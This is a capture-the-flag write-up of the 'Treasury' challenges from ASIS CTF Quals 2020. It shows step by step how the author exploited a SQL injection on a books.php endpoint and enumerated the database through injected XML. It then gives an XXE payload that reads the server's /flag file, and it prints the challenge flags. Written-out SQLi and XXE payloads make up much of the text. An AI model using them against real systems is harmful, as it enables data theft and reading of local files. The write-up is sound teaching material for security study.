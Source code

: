# Treasury (ASIS CTF Quals 2020)
> [A Cultural Treasury](https://poems.asisctf.com/)

## Treasury #1
We start off by opening the given URL, we get information about some books :

![Treasury Root Page](img/Treasury-Root-Page.png "Treasury Root Page")

We open the Network tab in the developer tools and we notice that a request was made to <https://poems.asisctf.com/books.php?type=list>, with the initiator being this [treasury.js](https://poems.asisctf.com/treasury.js) file :

![Treasury Network books request](img/Treasury-Network-books-request.png "Treasury Network books request")

After opening [treasury.js](https://poems.asisctf.com/treasury.js), we see two fetch calls :  
- The [first one](img/Treasury-treasury.js-fetch-excerpt.png "Treasury treasury.js fetch excerpt") is made to `'/books.php?type=excerpt&id=' + book.id`
- The [second one](img/Treasury-treasury.js-fetch-list.png "Treasury treasury.js fetch list") is made to `'books.php?type=list'`

### SQL injection
After testing the `type` parameter for values other than `excerpt` or `list`, we always get an error : `Invalid type`

Moving on to the `id` parameter, only the IDs 1, 2 and 3 return some data (the book excerpts).  
But if we try to put something like `' OR '1'='1` it works ! It fetches the excerpt of the first book successfully (<https://poems.asisctf.com/books.php?type=excerpt&id='+OR+'1'%3D'1>)

Now let's try a UNION injection with `' UNION SELECT 'ANYTHING` (<https://poems.asisctf.com/books.php?type=excerpt&id='+UNION+SELECT+'ANYTHING>)  
We get an error message indicating that the server tried to load an XML string out of the string `ANYTHING` that we provided in the union query :

![Treasury SQLi Error ANYTHING](img/Treasury-SQLi-Error-ANYTHING.png "Treasury SQLi Error ANYTHING")

#### Dirty approach (error based)
Great ! So now we can fetch anything from the database, and output it in the error message, and in fact this is the approach I took when I continued solving this challenge the first time.  
But there is a little problem (which is more like an inconvenience) : the error message prints only 80 characters max and stops printing when it encounters a newline, so when fetching data from the database we have to make sure that the newlines are replaced and print only 80 characters at a time, you can find the script I used to do that [here](error-based-solve.py "error-based-solve.py")

#### Clean approach (XML injection)
Now, for a better and cleaner approach, if we think a little bit about this, since the server is expecting to load an XML string from the database, we can actually create our own XML in the union injection and let the server parse it.  
But we have to know the structure of the XML string it expects...  
Well. We can guess, right ? Since we're fetching book excerpts, maybe it expects an `excerpt` tag ? Let's see :
- Let this be the XML we're injecting
```xml
<root>
  <excerpt>TESTING HERE</excerpt>
</root>
```
- Let's put it in the payload : `' UNION SELECT '<root><excerpt>TESTING HERE</excerpt></root>`, and send it
- We get `TESTING HERE` in the [response](img/Treasury-XML-injection.png "Treasury XML injection"), great ! We successfully crafted an XML string to be parsed by the server

### Database enumeration
Now using the XML injection technique, we can enumerate all existing databases, tables and their contents.

#### Enumerate all the tables
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(table_schema), '|', GROUP_CONCAT(table_name), '</excerpt></root>') FROM information_schema.tables WHERE table_schema != 'information_schema`
- **Explanation:** first of all, we wrap what we want to fetch in the previous XML tags (root and excerpt), now to fetch all the names of all databases and tables, there is a special table `information_schema.tables` which contains that information in the columns `table_schema` (database) and `table_name`. We use `GROUP_CONCAT` to get concatenate all the resulting rows in a single one (because the server fetches only the first row), and we use `CONCAT` to concatenate the resulting columns into one (else the union query would fail because of a mismatch of the number of columns), and finally we specify `WHERE table_schema != 'information_schema'` to avoid fetching information about the special database `information_schema` since it doesn't mean anything to us.
- **Response:** `ASISCTF|books`, this means that there is only the `books` table in the `ASISCTF` database

#### Enumerate the columns of ASISCTF.books
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(column_name), '</excerpt></root>') FROM information_schema.columns WHERE table_name = 'books`
- **Explanation:** again, we wrap what we need in the XML tags, and with the same technique as the previous one, we fetch all column names from the `books` table.
- **Response:** `id,info`, so now our focus is on the `info` column, which we know contains the XML strings.

### Finding the gold
Now before writing our next query, we have to put in mind that since the info column contains XML strings, we want the server not to parse those XML strings, we just want to see them in their raw form.  
Thankfully we can achieve that with MySQL's `REPLACE` function, by replacing `<` with something else.
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', REPLACE(GROUP_CONCAT(info, '\n-------------------------------\n'), '<', '>'), '</excerpt></root>') FROM books #`
- **Explanation:** we wrap what we need to fetch in XML tags, and use `GROUP_CONCAT` to join all infos by separating them with `\n-------------------------------\n`, and we replace `<` with `>` to avoid the interpration of the inner XML, and we use `#` in the end to comment out the rest of the query.
- **Response:** we get all the XML strings, and we notice that there is a surprise of a tag... but a welcome one :
```
>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>1>/id>
  >name>Dīvān of Hafez>/name>
  >author>Khwāja Shams-ud-Dīn Muḥammad Ḥāfeẓ-e Shīrāzī>/author>
  >year>1315-1390>/year>
  >link>https://ganjoor.net/hafez/ghazal/sh255/>/link>
  >flag>Your flag is not here! Read more books :)>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>2>/id>
  >name>Gulistan of Saadi>/name>
  >author>Abū-Muhammad Muslih al-Dīn bin Abdallāh Shīrāzī, the Saadi>/author>
  >year>1258>/year>
  >link>https://ganjoor.net/saadi/golestan/gbab1/sh36/>/link>
  >flag>OK! You can use ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884} flag, but I keep the `/flag` file secure :-/>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>3>/id>
  >name>Shahnameh of Ferdowsi>/name>
  >author>Abul-Qâsem Ferdowsi Tusi>/author>
  >year>977-1010>/year>
  >link>https://ganjoor.net/ferdousi/shahname/jamshid/sh1/>/link>
  >flag>Just if I could read files :(>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
```
As you can see, the **flag** is in the `flag` tag in the second book : `ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884}`  
But we also get this message `"I keep the /flag file secure"`, let's see how "secure" that is in the second part of this challenge.

## Treasury #2
Before going forward, make sure to read the solution of `Treasury #1` since this part is pretty easy and just uses what we gathered in the first part.

### XXE
That being said, it is now obvious that we need to read the contents of `/flag`.
> Just if I could read files :(

Oh yes we can... XML provides us with the great feature of loading external resources using DocType Definitions (DTD), and this falls in the range of **XXE attacks** (XML eXternal Entity).

Here is the XML we'll be injecting to read the contents of `/flag` :
```xml
<!DOCTYPE excerpt [
   <!ELEMENT excerpt ANY >
   <!ENTITY flag SYSTEM  "file:///flag" >]>
<root>
  <excerpt>&flag;</excerpt>
</root>
```
As you can see, we use a DOCTYPE definition and define `flag` as an entity that reads the `/flag` file, so when we issue `&flag;` in the `excerpt` tag, it will replace the `flag` "variable" with the contents of `/flag`. Let's see :
- **Query payload:** `' UNION SELECT '<!DOCTYPE excerpt [<!ENTITY flag SYSTEM "file:///flag">]><root><excerpt>&flag;</excerpt></root>`
- **Explanation:** nothing much to explain, we just inject the XML in the UNION query
- **Response:** `ASIS{03482b1821398ccb5214d891aed35dc87d3a77b2}`, we get the second **flag** as expected, **very COOL**.
